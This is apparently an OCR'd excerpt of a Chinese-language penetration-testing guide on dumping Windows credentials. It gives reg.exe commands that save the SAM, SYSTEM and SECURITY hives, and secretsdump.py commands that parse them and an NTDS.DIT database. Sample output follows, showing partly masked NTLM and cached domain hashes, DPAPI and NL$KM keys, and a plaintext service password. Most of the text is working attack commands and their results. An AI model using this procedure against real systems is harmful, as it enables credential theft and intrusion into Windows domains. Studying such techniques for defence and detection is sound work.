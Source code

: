####　SAM database、LSA secrets和缓存中凭证的获取  
SAM database、LSA secrets(包括缓存)中存储的用户凭证都可以使用secretsdump.py来获取。  
SAM database中的凭证获取方法：  
```
reg.exe save hklm\sam c:\sam.save  
reg.exe save hklm\system c:\system.save

secretsdump.py -sam sam.save -system system.save local

Impacket v0.9.18-dev - Copyright 2018 SecureAuth Corporation

[*] Target system bootKey: 0x6614a6bef1ceaaxxxxxxxxxxxbcd257e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b514xxxxxad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:aad3b435b51404xxxxx3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
de1ay:1000:aad3b435b514xxxxxd3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
abc$:1007:aad3b435b514xxxxxd3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
[*] Cleaning up... 
```
LSA secrets(包括缓存)中的凭证获取方法：  
```
reg.exe save hklm\security c:\security.save
reg.exe save hklm\system c:\system.save

secretsdump.py -security security.save -system system.save local               
Impacket v0.9.18-dev - Copyright 2018 SecureAuth Corporation

[*] Target system bootKey: 0x6614a6bef1ceaaxxxxxxxxxxxbcd257e
[*] Dumping cached domain logon information (domain/username:hash)
DE1AY.COM/mssql:$DCC2$10240#mssql#a8a11a2276307e7d9c185b644dxxxxxx
DE1AY.COM/Administrator:$DCC2$10240#Administrator#f879e85ffc7bd787f28d4b7f8fxxxxxx
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:a2af5588ef53ff80ce73f133a2xxxxxx
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x18073c0fab6bea655106d585389e48fd5fxxxxxx
dpapi_userkey:0x6d25ff60cbcc42a99957adc4a021c6049exxxxxx
[*] NL$KM 
 0000   F0 C0 3B A4 49 60 F7 4E  18 65 C1 C8 A0 11 C2 7E   ..;.I`.N.e.....~
 0010   40 00 88 B7 E1 7E ED 50  57 00 71 37 87 22 01 6B   @....~.PW.q7.".k
 0020   31 73 54 A3 E0 76 87 DD  D5 C9 00 5F 28 EE 6A 4B   1sT..v....._(.jK
 0030   3F 22 27 D0 FF 8E 1C B0  DA A4 A0 10 DB 09 32 44   ?"'...........2D
NL$KM:f0c03ba44960f74e1865c1c8a011c27e400088b7e17eed50570071378722016b317354a3e07687ddd5c9005f28ee6a4b3f2227d0ff8e1cb0daa4a010dbxxxxxx
[*] _SC_MSSQL$SQLEXPRESS 
(Unknown User):1qaz@WSX
[*] _SC_ReportServer$SQLEXPRESS 
(Unknown User):1qaz@WSX
[*] Cleaning up...
```
#### NTDS.DIT和Supplemental Credentials中的凭证获取
使用secretsdump.py解析本地NTDS.DTI数据库获取凭证，优点是分析的内容全面，包括Supplemental Credentials中的明文密码，缺点是速度慢。  
使用QuarksPwDump.exe解析本地NTDS.DIT数据库获取凭证，优点是分析的内容有限，只有NTLM HASH。  
```
Impacket v0.9.18-dev - Copyright 2018 SecureAuth Corporation
  
[*] Target system bootKey: 0x6614a6bef1ceaaxxxxxxxxxxxbcd257e
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy
[*] Reading and decrypting hashes from ntds.dit
HN-DC04$:1001:aad3b435b514xxxxxad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
Guest:501:aad3b435b514xxxxxad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
domain.com\Administrator:500:aad3b435b514xxxxxad3b435b51404ee:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx:::
```
